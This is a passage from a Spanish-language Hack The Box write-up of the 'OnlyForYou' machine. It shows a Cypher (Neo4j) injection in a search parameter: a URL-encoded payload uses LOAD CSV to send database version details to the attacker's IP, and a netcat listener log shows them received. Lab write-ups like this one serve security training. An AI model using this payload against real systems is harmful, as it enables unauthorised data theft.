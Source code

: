 <img src="/writeups/assets/img/OnlyForYou-htb/6.png" alt="">

A través del LFI, había visto que está ```neo4j``` desplegado, por lo que es probable que se esté comunicando a él. En este [artículo](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j) detallan como efectuar una inyección SQL para este tipo de bases de datos. El campo de búsqueda de trabajadores es vulnerable

<img src="/writeups/assets/img/OnlyForYou-htb/7.png" alt="">

Voy a ir introduciendo diferentes payloads en el parámetro por POST ```search``` para enumerar y dumpear datos. Primero, listo la versión

```null
'+OR+1%3d1+WITH+1+as+a++CALL+dbms.components()+YIELD+name,+versions,+edition+UNWIND+versions+as+version+LOAD+CSV+FROM+'http%3a//10.10.16.40/%3fversion%3d'+%2b+version+%2b+'%26name%3d'+%2b+name+%2b+'%26edition%3d'+%2b+edition+as+l+RETURN+0+as+_0+//+
```

La exfiltración es remota, es decir, se tramita una petición a un servidor tercero

```null
nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.16.40] from (UNKNOWN) [10.10.11.210] 42358
GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1
User-Agent: NeoLoadCSV_Java/17.0.6+10-Ubuntu-0ubuntu120.04.1
Host: 10.10.16.40
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```
